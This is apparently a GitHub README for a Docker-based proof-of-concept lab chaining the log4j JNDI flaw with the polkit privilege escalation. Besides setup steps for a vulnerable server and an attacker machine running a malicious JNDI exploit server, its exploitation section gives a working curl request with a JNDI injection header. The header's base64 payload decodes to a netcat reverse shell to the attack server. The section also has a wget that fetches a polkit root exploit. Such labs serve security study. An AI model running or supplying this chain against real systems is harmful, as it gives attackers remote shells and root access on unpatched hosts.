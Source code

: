 #  log4j CVE-2021-44228 + polkit CVE-2021-4034
Vulnerable instance for the log4j apache exploit and privilege escalation using polkit
- The vulnable spring-boot-application.jar was extracted from [this docker image](https://hub.docker.com/r/andylibrian/log4shell-vulnerable-app/tags)
- The malicious JNDI server was downloaded from [here](https://log4j-knox.s3.amazonaws.com/JNDIExploit-1.2-SNAPSHOT.jar) and referenced in [this article](https://github.com/kubearmor/log4j-CVE-2021-44228).

## PoC Video
\<follows-here\>

## creating the vulnerable instances

### log4j-polkit-vuln
The vulnerable instance will be running and listening for connections on port 80 (exposed to the host machine) on completion of the steps below. The vulnerable part for the log4j exploit is the X-Api-Version header that is sent to the server.

Docker: [log4j-polkit-vulnerable-server](https://hub.docker.com/r/0xalwayslucky/log4j-polkit-vulnerable-server)

steps to pull & run the vulnerable docker image:
```bash
docker pull 0xalwayslucky/log4j-polkit-vulnerable-server
docker run -p 80:8080 0xalwayslucky/log4j-polkit-vulnerable-server
```

steps to create a vulnerable instance for log4j + polkit manually:
> Note: the Dockerfiles require certain versions of the vulnerable applications to be present within the ubuntu repositories. If these get updated and/or removed on any given time the docker image will fail to build. To solve this an image will be uploaded to the docker hub and linked here.
```bash
git clone https://github.com/0xalwayslucky/log4j-polkit-poc
cd log4j-polkit-vuln
docker build -t log4j-polkit-vulnerable-server .
docker run -p 80:8080 --hostname victim log4j-polkit-vulnerable-server
```

### attackserver
This will simulate the attackers machine, in this case present within the same network (due to easy communication between docker containers), but the exploit works no matter where this attack server is situated (only condition is that it is accessible by the victim). The malicious JNDI server will be hosted on here and create a malicious class to execute arbitrary commands on the victims machine.

steps to create a simulated attacker machine:
```bash
git clone https://github.com/0xalwayslucky/log4j-polkit-poc
cd attackserver
docker build -t attackserver .
docker run -it --hostname attackserver attackserver /bin/bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <ip> -p 8888 &  # in the docker container
```

## exploitation
commands from the poc-video
> Note: IP address of the attackserver might vary
```
# Log4j exploit
curl http://localhost -H 'X-Api-Version: ${jndi:ldap://172.17.0.3:1389/Basic/Command/Base64/bmMgMTcyLjE3LjAuMyA0NDQ0IC1lIC9iaW4vYmFzaA==}'

# Polkit exploit
wget https://raw.githubusercontent.com/afwu/CVE-2021-4035/main/cve-2021-4034-poc.c

```
